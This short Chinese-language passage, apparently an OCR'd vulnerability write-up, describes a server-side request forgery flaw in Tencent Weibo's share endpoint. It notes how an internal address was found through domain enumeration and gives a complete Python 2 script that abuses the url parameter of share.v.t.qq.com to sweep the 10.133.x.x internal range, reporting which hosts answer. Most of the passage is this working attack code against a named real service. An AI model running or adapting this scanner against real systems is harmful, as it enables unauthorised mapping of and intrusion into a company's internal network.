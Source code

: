 
  

  
这个漏洞地址是t.qq.com，腾讯微博的，确定内网地址，只需要开启域名穷举即可，比如：
  

  
PING demo.t.qq.com (10.133.42.26) ，就大概知道腾讯微博的内网地址
  

  
针对固定的10.网络 B段、C段进行遍历探测
  
``` python
  
#!/usr/bin/env python
  
# encoding: utf-8
  
# email: ringzero@0x557.org
  

  
import requests
  
import time
  
import random
  

  
port = '80'
  

  
# fuzz local C 
  
for c in xrange(0,255):
  
    for d in xrange(0,255):
  
        ip = '10.133.{0}.{1}'.format(c,d)
  
        payload = 'http://{ip}:{port}/'.format(ip=ip,port=port)
  
        url = 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url={payload}'.format(
  
            payload=payload)
  
        # len({"ret":1}) == 9
  
        if len(requests.get(url).content) != 9:
  
            print ip, port, 'OPEN', requests.get(url).content
  

  
```
  